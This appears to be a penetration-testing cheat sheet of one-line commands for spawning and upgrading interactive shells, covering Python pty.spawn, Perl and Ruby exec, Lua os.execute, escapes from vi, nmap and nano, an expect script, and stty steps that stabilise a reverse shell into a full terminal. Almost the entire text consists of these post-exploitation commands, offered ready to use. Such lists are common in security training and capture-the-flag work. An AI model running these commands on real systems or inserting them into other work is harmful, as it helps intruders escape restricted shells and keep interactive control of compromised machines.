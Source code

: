 #### Python

```echo os.system("/bin/bash")```

```python -c 'import pty; pty.spawn("/bin/bash")'```

-----


#### Perl

```perl -e 'exec "/bin/sh";'```

```exec "/bin/sh"```

-----


#### Ruby

```exec "/bin/sh"```

-----


#### LUA

```os.execute("/bin/sh")```

-----


#### sh

```/bin/sh -i```

-----


#### Vi

```:!bash```

```:set shell=/bin/bash:shell```

-----


#### nmap

```!sh```

-----


#### nano

```ctrl+r ctrl+x /bin/bash```

-----


#### stty (fixed)

*In reverse shell:*

```python -c 'import pty;pty.spawn("/bin/bash")'```

*ctrl+z (to background)*

*In base OS:*

```stty raw -echo```

```reset```

```export SHELL=bash```

```export TERM=xterm-256color```

```stty rows <num> columns <cols>```

```fg```

-----


#### expect

*cat sh.exp*

```#!/usr/bin/expect```

```spawn sh```

```interact```

-----

